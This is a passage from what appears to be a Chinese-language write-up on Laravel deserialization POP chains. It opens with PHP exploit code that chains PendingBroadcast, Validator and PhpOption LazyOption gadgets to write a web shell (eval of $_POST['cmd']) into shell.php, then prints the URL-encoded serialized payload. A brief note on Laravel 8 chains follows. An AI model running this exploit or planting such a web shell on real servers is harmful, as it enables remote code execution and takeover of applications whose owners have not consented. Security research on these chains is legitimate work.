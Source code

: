 ```
        public function __construct($callback, $arguments) {
            $this->callback = $callback;
            $this->arguments = $arguments;
        }
    }
}

namespace {
    $c = new PhpOption\LazyOption("file_put_contents", ["shell.php", "<?php eval(\$_POST['cmd']) ?>"]);
    $b = new Illuminate\Validation\Validator(array(''=>array($c, 'filter')));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, 'whoami');
    print(urlencode(serialize($a)));
}
```

# Laravel8反序列化POP链

在下面参考链接文章中Laravel8有介绍三条链都很详细，链和上面Laravel5.8也差不太多，就不赘述，然后有一条可以phpnfo的，同样是经典入口类

![](img/37c1434167ec8738c7465a4915f24c21.png)
